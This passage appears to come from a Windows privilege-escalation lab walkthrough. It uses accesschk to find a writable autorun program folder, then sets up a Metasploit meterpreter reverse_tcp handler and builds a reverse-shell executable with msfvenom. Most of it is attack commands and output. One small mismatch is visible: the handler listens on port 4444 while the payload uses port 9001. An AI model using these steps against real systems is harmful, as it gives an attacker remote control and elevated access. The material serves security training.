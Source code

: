 ```bash
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

<img width="1150" height="530" alt="image" src="https://github.com/user-attachments/assets/951f1867-2488-4935-b7e8-c69b6d7594b6" />

<br>
<br>
<br>

<img width="1064" height="180" alt="image" src="https://github.com/user-attachments/assets/09b2df8b-35ce-4873-a89f-b61c1b8d334d" />

<br>
<br>
<br>

<img width="991" height="235" alt="image" src="https://github.com/user-attachments/assets/0830e90c-065b-4979-82ac-95a879a2ea98" />

<br>
<br>
<br>

<p align="center">Exploitation</p>

```bash
:~/WindowsPrivEscArena# mfsconsole -q
...
msf6>
```

```bash
msf6> use multi/handler
msf6 exploit(multi/handler) >
```

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

```bash
msf6 exploit(multi/handler) > set LHOST xx.xxx.xxx.xx
LHOST => xx.xxx.xxx.xx
```

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on xx.xxx.xxx.xx:4444
```

<img width="1289" height="651" alt="image" src="https://github.com/user-attachments/assets/fc173d13-1141-444f-b8a9-7190e6e5a61b" />


```bash
:~/WindowsPrivEscArena# msfvenom -p windows/meterpreter/reverse_tcp LHOST=xx.xxx.xxx.xx LPORT=9001 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```
